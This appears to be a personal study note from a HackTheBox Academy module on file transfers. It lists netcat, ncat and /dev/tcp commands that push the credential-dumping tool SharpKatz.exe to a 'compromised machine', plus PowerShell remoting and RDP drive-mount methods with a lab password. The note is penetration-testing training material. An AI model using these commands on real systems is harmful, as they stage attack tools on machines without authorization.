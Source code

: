 ```yaml
---
Title: HTB\File_Transfers\miscellaneous_methods
tags:
  - os/windows
  - os/linux
  - os/network- cybersec
source: HTB\File_Transfers\miscellaneous_methods
---
```


# HTB\File_Transfers\miscellaneous_methods

> Źródło: `HTB\File_Transfers\miscellaneous_methods`

Connecting from our machine
Netcat
victim@target:~$ nc -l -p 8000 > SharpKatz.exe
Ncat
victim@target:~$ ncat -l -p 8000 --recv-only > SharpKatz.exe

Ovas420@htb[/htb]$ nc -q 0 192.168.49.128 8000 < SharpKatz.exe

Connecting from the compromised machine

netcat
Ovas420@htb[/htb]$ sudo nc -l -p 443 -q 0 < SharpKatz.exe
victim@target:~$ nc 192.168.49.128 443 > SharpKatz.exe

ncat
Ovas420@htb[/htb]$ sudo ncat -l -p 443 --send-only < SharpKatz.exe
victim@target:~$ ncat 192.168.49.128 443 --recv-only > SharpKatz.exe

If the compromised machine does not have ncat or netcat

netcat
Ovas420@htb[/htb]$ sudo nc -l -p 443 -q 0 < SharpKatz.exe
ncat
```bash
sudo ncat -l -p 443 --send-only < SharpKatz.exe
```text
on compromised machine:
cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe

```powershell
PowerShell
```text
By default, enabling PowerShell remoting creates both an HTTP and an HTTPS listener. The listeners run on default ports TCP/5985 for HTTP and TCP/5986 for HTTPS.

To create a PowerShell Remoting session on a remote computer,
we will need administrative access, be a member of the Remote Management Users group,
or have explicit permissions for PowerShell Remoting in the session configuration.
Let's create an example and transfer a file from DC01 to DATABASE01 and vice versa.

We have a session as Administrator in DC01, the user has administrative rights on DATABASE01, and PowerShell Remoting is enabled.
Let's use Test-NetConnection to confirm we can connect to WinRM.

```powershell
PS C:\htb> whoami
```text
htb\administrator

```powershell
PS C:\htb> hostname
```text
DC01

```powershell
PS C:\htb> Test-NetConnection -ComputerName DATABASE01 -Port 5985
```text
ComputerName     : DATABASE01
RemoteAddress    : 192.168.1.101
RemotePort       : 5985
InterfaceAlias   : Ethernet0
SourceAddress    : 192.168.1.100
TcpTestSucceeded : True

Create a remote session
```powershell
PS C:\htb> $Session = New-PSSession -ComputerName DATABASE01
```text
copy a file from localhost to the DATABASE01 session
```powershell
PS C:\htb> Copy-Item -Path C:\samplefile.txt -ToSession $Session -Destination C:\Users\Administrator\Desktop\
```text
copy database.txt from DATABASE01 session to our localhost
```powershell
PS C:\htb> Copy-Item -Path "C:\Users\Administrator\Desktop\DATABASE.txt" -Destination C:\ -FromSession $Session
```

RDP
mounting a linux flder using rdesktop
Ovas420@htb[/htb]$ rdesktop 10.10.10.132 -d HTB -u administrator -p 'Password0@' -r disk:linux='<desired linux folder>'

mounting a linux folder using xfreerdp
Ovas420@htb[/htb]$ xfreerdp /v:10.10.10.132 /d:HTB /u:administrator /p:'Password0@' /drive:linux,/home/plaintext/htb/academy/filetransfer

To access the directory, we can connect to \\tsclient\, allowing us to transfer files to and from the RDP session.

**Powiązane:** [[Graph-Home]] [[OS-Windows]] [[OS-Linux]] [[OS-Network]]
